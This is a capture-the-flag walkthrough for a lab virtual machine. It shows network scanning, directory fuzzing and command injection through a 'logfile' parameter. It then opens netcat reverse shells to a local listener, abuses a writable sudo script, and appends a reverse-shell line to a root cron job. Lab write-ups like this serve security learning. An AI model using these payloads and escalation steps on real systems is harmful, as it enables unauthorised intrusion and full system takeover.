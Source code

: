 Walkthrough for Mr.Robot virtual machine

Starting the attack I had to identify the virtual machine IP addr. I did this by running rubicon which is a script I programmed. The nmap scrip that it runs is "nmap -sn 192.168.0.0/24". This scans the range of IP's in that range to list all IP's on my network. To recreate this on your own network run ifconfig and if it returns 192.168.1.XXX then use 192.168.1.0/24 as your range or adapt for your IP addr. As you can see the NMAP scan returned the information below and I determined that
the target IP addr is 192.168.56.105

Script: 
```
nmap -sN 192.168.56.0/24
```

![[Screenshot From 2025-06-24 11-29-52.png]]

After identifying the IP addr, I noticed port 8080 is open on the device. I then opened my browser and went to the address.

I was greeted with a login prompt. I left it the defualt username and hit enter,

Upon hitting enter I was greeted with a chat room. i then typed test and hit enter. The chat appeared in the chat window.

Address
```
192.168.56.105:8080
```

![[Screenshot From 2025-06-24 11-35-31.png]]

![[Screenshot From 2025-06-24 11-35-44.png]]

I inspected the page source and found nothing suspicious so I decided to ffuf scan the web address.

Script:
```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .html,.php,.txt -u http://192.168.56.105:8080/FUZZ -of html -o dir.html -fs 2899
```

The scan revealed three pages to follow:
- administration.php
- chat.txt
- process.php

![[Screenshot From 2025-06-24 11-38-25.png]]

I entered chat.txt and noticed it was just a log of all the chats as a plain text file

![[Screenshot From 2025-06-24 11-39-24.png]]

I then decided to go to administration.php and was greeted with a message stating access is denied and the actions had been logged.

![[Screenshot From 2025-06-24 11-40-20.png]]

The "view :" seemed suspicious to me as it seemed like it was expecting something, maybe a file or something similar to state what the user is/isn't allowed to view. going back to the chat screen showed something was supposed to be posted, but it was empty.

![[Screenshot From 2025-06-24 11-44-10.png]]

This seemed weird so I decided to run another ffuf scan on the administration.php address and it showed a file named "logfile".

Script:
```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://192.168.56.105:8080/administration.php?FUZZ=anything' -of html -o admin-get.html -fs 65
```

![[Screenshot From 2025-06-24 11-42-14.png]]

I decided to test for Local File Inclusion (LFI) by running ?logfile=chat.txt. that revealed a plain text view of the chat.txt file. 

![[Screenshot From 2025-06-24 11-45-08.png]]

This allows us to use this chat file to display information about the system via a ";". I decided to try and view which user we were under on the website.

Address/Script:
```
?logfile=chat.txt;whoami
```

This revealed the user we are under within the webpage and confirms we can execute commands.

![[Screenshot From 2025-06-24 11-50-51.png]]

![[Screenshot From 2025-06-24 11-51-43.png]]

I decided to try and get a reverse shell on the machine using netcat (nc). Before we can execute nc we have to rememeber that we are "the machine", not technically a user on the device, so running all non-native commands, we have to find then out first. If we are going to use nc, we have to find out which nc to use.

Address/Script:
```
?logfile=chat.txt;which nc
```

![[Screenshot From 2025-06-24 11-54-27.png]]

This reveled nc was located at /usr/bin/nc meaning we can run it. I opened a listener on my local machine and invoked a remote connection on the website. and IT WORKED!!

Local Machine Script:
```
nc -lvnp 9000
```

Address/Script:
```
?logfile=;nc -e /bin/bash 192.168.56.1 9000
```

![[Screenshot From 2025-06-24 12-06-00.png]]

![[Screenshot From 2025-06-24 12-06-13.png]]

Now we have to verify who we are by running whoami in the remote shell.

Script:
```
whoami
```

That showed that we are infact www-data. Lets run a "sudo -l" to see what kind of sudo access we have.

Script:
```
sudo -l
```

This revealed that we can run a single file as another user named julia as sudo.

![[Screenshot From 2025-06-24 12-08-11.png]]

Lets see what kind of access is on that file, who can do what and who owns it. I did this by running "ls -alps"

Script:
```
ls -alps
```

This revealed that other users other than root can write to it, so I added a binary bash at the end of the file which will execute when we run it. This will give us access to a shell under the user we execute the start.sh file as.

![[Screenshot From 2025-06-24 12-11-00.png]]

![[Screenshot From 2025-06-24 12-11-51.png]]

I then executed the file as julia.

Script:
```
sudo -u julia bash /var/www/html/start.sh
```

And we were now able to execute commands as julia.

![[Screenshot From 2025-06-24 12-12-49.png]]

Now we have broke out of the www-data account we need to grab the user flag. lets get to the users home directory via a simple "cd" and see if the flag is there.

Script:
```
cd
ls -alps
```

![[Screenshot From 2025-06-24 12-15-13.png]]

We see a file called user.txt, catting it out gave us our first flag.

Script:
```
cat user.txt
```

![[Screenshot From 2025-06-24 12-15-59.png]]

Now we need to work on the root flag. Understanding the linux system and having done many machines, I always check the cron jobs first to see if there is any privlage escalation possible. This is always a good place to start as all cronjobs run as root on normal system. Lets dig into it.

Script:
```
cat /etc/crontab
```

![[Screenshot From 2025-06-24 12-18-49.png]]

this revealed a custom crontab added that ran a file called check.sh. Lets see the contents of that file. That revealed it was just running a loop every so often to ensure a service was running.

Script:
```
cat /var/cron/check.sh
```

![[Screenshot From 2025-06-24 12-20-24.png]]

I decided to try and get it to invoke a reverse shell. I opened a listener on another terminal tab and added a reverse shell one-liner to the end of the file.

New Terminal Tab Script:
```
nc -lvnp 9001
```

Current Reverse Shell Script:
```
echo 'nc -e /bin/bash 192.168.56.1 9001' >> /var/cron/check.sh
```

![[Screenshot From 2025-06-24 12-24-19.png]]

After waiting a bit we received the connection. running a whoami verified we are root. Lets get this last flag.

![[Screenshot From 2025-06-24 12-25-23.png]]

Obtaining the last flag was easy by running a cd and catting out the root.txt file

Script:
```
cd
ls -al
cat root.txt
```

![[Screenshot From 2025-06-24 12-26-26.png]]

With that, we've completed the machine. Thank you for reading. If you need clarification on anything, please feel free to ask OR go to my YouTube channel to watch the live walk-through.